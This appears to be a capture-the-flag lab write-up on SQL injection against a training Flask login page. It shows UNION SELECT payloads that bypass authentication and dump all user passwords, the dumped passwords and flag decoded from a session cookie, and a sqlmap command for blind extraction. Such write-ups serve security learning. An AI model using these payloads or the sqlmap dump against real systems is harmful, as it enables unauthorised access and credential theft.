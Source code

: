 By using ' UNION SELECT 1,2-- - as username, we match the number of columns in the original SQL query, and the application lets us in. After logging in, we can see that the username is replaced with the integer 2, which is what we used as column two in the injected query.

![image](https://user-images.githubusercontent.com/89842187/133133868-51176965-f5c2-4060-a953-0048313f32e5.png)

The same goes for the username in the session cookie. By decoding it, we can see that the username has been replaced with the same value as above.

```
{
    "challenge2_user_id": 1,
    "challenge2_username": 2
}
```
Enumerate the database to find tables and columns, as we did under Task 2 Introduction to SQL Injection. A cheat sheet such as PayloadsAllTheThings can be helpful for this. The challenge's objective was to dump all the passwords to get the flag, so in this case, we will guess that the column name is password and that the table name is users. With this logic, it is possible to dump the passwords with the following code:

```
' UNION SELECT 1, password from users-- -
```

However, the previous statement will only return one password. The group_concat() function can help achieve the goal of dumping all the passwords simultaneously. 
By injecting the following code into the username field:

```
' UNION SELECT 1,group_concat(password) FROM users-- -

```

All the passwords are dumped:

![image](https://user-images.githubusercontent.com/89842187/133133970-2a4aa764-c9af-4e39-9605-130316b1a143.png)

The passwords can also be retrieved by decoding the Flask session cookie:

```
{
    "challenge2_user_id": 1,
    "challenge2_username": "rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{AuTh2},viking123"
}
```

## BLINDSQL SQLMAP

```
sqlmap -u http://10.10.110.236:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
```
# Vuln Notes
